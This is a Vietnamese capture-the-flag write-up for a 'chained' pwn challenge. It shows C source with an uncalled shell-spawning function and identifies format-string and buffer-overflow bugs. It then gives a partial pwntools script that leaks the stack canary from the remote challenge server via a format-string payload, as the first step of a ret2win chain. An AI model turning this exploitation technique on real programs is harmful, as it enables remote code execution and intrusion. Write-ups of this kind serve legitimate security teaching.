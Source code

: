 ```c

void delve_operations() {
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

int main(int argc, char *argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    probe_forum();
    analyze_binary();
    return 0;
}

```

- Mình dùng **checksec** để phân tích tệp chương trình.

![alt text](image-2.png)
=> Bài này nếu có BOF thì cần bypass Canary

Phân tích mã nguồn bài này thì mình phát hiện 3 lỗi như bên dưới:

- Phân tích mã nguồn của chương trình, mình nhận thấy có một hàm cấp cho người chơi shell là **delve_operations**. Tuy nhiên, hàm này lại không được gọi đến => Mình nghĩ hướng đi của bài này phải có **ret2win**
- Tiếp tục, mình phát hiện một lỗi khác nữa là **Format String** ở trong hàm **probe_forum**, ở phần **printf(process_logs)** => Dùng lỗi này để leak được giá trị của Canary.
- Ở ngay trong hàm **probe_forum**, chương trình có thêm một lỗi nữa là **BOF** (Không giới hạn ký tự nhập vào của người dùng) ở 2 biến **intrusion_details**, **process_logs**.

=> Tận dụng 3 lỗi này để tạo thành một chain khai thác gọi được tới hàm **delve_operations**, sau đó RCE server rồi đọc flag.

Mình đã viết một payload khai thác như bên dưới:

```python
from pwn import *

# r = process("chained-dist")
# gdb.attach(r)

r = remote(b"0.cloud.chals.io", 23188)


print(r.recvuntil(b"> "))

payload = b"%59$p***%49$p"
r.sendline(payload)

output = r.recvuntil(b"> ").decode("utf-8")

canary = int(output.split("***")[1], 16)
info("canary: 0x%x" % canary)

```